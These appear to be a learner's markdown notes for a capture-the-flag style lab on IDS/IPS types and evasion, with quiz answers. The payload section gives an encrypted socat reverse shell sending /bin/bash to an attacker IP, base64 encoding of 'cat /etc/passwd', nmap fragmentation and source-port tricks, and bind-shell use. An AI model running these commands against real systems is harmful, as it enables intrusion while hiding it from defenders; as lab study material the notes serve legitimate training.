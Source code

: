 # Network Security Solutions - Medium

1. [Introduction](#introduction)
2. [IDS Engine Types](#ids-engine-types)
3. [IDS/IPS Rule Triggering](#idsips-rule-triggering)
4. [Evasion via Protocol Manipulation](#evasion-via-protocol-manipulation)
5. [Evasion via Payload Manipulation](#evasion-via-payload-manipulation)
6. [Evasion via Route Manipulation](#evasion-via-route-manipulation)
7. [Evasion via Tactical DoS](#evasion-via-tactical-dos)
8. [C2 and IDS/IPS Evasion](#c2-and-idsips-evasion)
9. [Next-Gen Security](#next-gen-security)

## Introduction

* IDS (Intrusion Detection System) - detects network/system intrusions.

* IPS (Intrusion Prevention System) - can detect and prevent intrusions.

* IDS setups can be categorised based on their location in the network into:

  * HIDS (Host-based IDS) - installed on an OS along with other apps; HIDS monitors traffic going in and out of the host.

  * NIDS (Network-based IDS) - dedicated app/server to monitor network traffic; usually connected to a monitor port on the switch.

```markdown
1. What does an IPS stand for? - Intrusion Prevention System

2. What do you call a system that can detect malicious activity but not stop it? - Intrusion Detection System
```

## IDS Engine Types

* Network traffic can be either benign (usual) or malicious (abnormal); the latter should be picked up by the IDS.

* Detection engine of an IDS can be:

  * Signature-based - needs full knowledge of malicious traffic; using explicit rules to match against.

  * Anomaly-based - needs knowledge of what regular traffic is like; using machine learning or manual rules.

```markdown
1. What kind of IDS engine has a database of all known malicious packets’ contents? - Signature-based

2. What kind of IDS engine needs to learn what normal traffic looks like instead of malicious traffic? - Anomaly-based

3. What kind of IDS engine needs to be updated constantly as new malicious packets and activities are discovered? - Signature-based
```

## IDS/IPS Rule Triggering

```markdown
1. What is the IP address running the port scan? - 10.14.17.226
```

## Evasion via Protocol Manipulation

* Evasion via protocol manipulation includes:

  * Relying on a different protocol
  * Manipulating (source) TCP/UDP port
  * Using session splicing (IP packet fragmentation)
  * Sending invalid packets

```markdown
1. We use the following Nmap command, nmap -sU -F 10.10.30.17, to launch a UDP scan against our target. What is the option we need to add to set the source port to 161? - -g 161

2. Using ncat, how do we set a listener on the Telnet port? - ncat -lvnp 23

3. We are scanning our target using nmap -sS -F 10.10.30.17. We want to fragment the IP packets used in our Nmap scan so that the data size does not exceed 16 bytes. What is the option that we need to add? - -ff

4. Which of the above three arguments would return meaningful results when scanning MACHINE_IP? - -sF

5. What is the option in hping3 to set a custom TCP window size? - -w
```

## Evasion via Payload Manipulation

* Evasion via payload manipulation includes:

  * Obfuscating and encoding payload
  * Encrypting communication channel
  * Modifying shellcode

```shell
#for encrypting communication channel

#we need to create key on attacker machine
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
#this gives thm-reverse.key and thm-reverse.crt

#create .pem file
cat thm-reverse.key thm-reverse.crt > thm-reverse.pem

#start listening while using key for encrypting communication
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

#on victim machine
socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash
#from here on, the packet data will be encrypted
#IPS cannot read encrypted data
```

```shell
echo "cat /etc/passwd" > b64.txt

base64 b64.txt
#encodes command to base64
```

```markdown
1. Using base64 encoding, what is the transformation of cat /etc/passwd? - Y2F0IC9ldGMvcGFzc3dkCg==

2. The base32 encoding of a particular string is NZRWC5BAFVWCAOBQHAYAU===. What is the original string? - ncat -l 8080

3. You created a certificate, which we gave the extension .crt, and a private key, which we gave the extension .key. What is the first line in the certificate file? - -----BEGIN CERTIFICATE-----

4. What is the last line in the private key file? - -----END PRIVATE KEY-----

5. Once you connect to the bind shell using ncat MACHINE_IP 1234, find the user’s name. - redteamnetsec
```

## Evasion via Route Manipulation

* Evasion via route manipulation includes:

  * Relying on source routing
  * Using proxy servers

```markdown
1. Which protocols are currently supported by Nmap? - HTTP, SOCKS4
```

## Evasion via Tactical DoS

* Evasion via tactical DoS includes:

  * Launching denial of service against IDS/IPS
  * Launching denial of service against logging server

## C2 and IDS/IPS Evasion

* Pentesting frameworks (Cobalt Strike, Empire) offer malleable C2 (Command & Control) profiles; these allow fine-tuning to evade IDS/IPS systems.

```markdown
1. Which variable would you modify to add a random sleep time between beacon check-ins? - Jitter
```

## Next-Gen Security

* Characteristics of next-gen IPS (NGNIPS):

  * Standard first-gen IPS capabilities
  * Application awareness and full-stack visibility
  * Context awareness
  * Content awareness
  * Agile engine
